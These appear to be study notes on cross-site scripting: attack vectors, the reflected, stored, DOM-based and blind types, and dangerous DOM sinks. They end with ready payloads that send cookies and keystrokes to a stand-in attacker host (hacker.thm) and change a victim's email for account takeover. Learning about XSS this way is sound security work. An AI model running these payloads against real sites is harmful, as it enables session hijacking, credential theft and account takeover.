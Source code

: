 # Cross Site Scripting(XSS)

### Attack Vectors

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms
<a/>

<!-- -->
				Reflected XSS
##### supplied data in an HTTP request is included in the webpage source without any validation.

Examples:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

<!-- -->

				Stored XSS				
##### The payload is stored on the web application and then gets run when other users visit the site or web page.
Examples:
- Comments on a blog
- User profile information
-  Nicknames in a chatroom  
- Website Listings

<!-- -->

				Dom-Based XSS		
##### Contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.

- Attack vector is usually the url

- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

Common sinks that lead to Dom-XSS:
-  document.write()
-  document.writeln()
-  document.domain
-  element.innerHTML
-  element.outerHTML
-  element.insertAdjacentHTML
-  element.onevent

<!-- -->

 
					Blind XSS				
##### your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads
## Session Stealing
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

## Key logger 
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

## Business Logic(so you can change their Password)
`<script>user.changeEmail('attacker@hacker.thm');</script>`

## Beef Framework

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)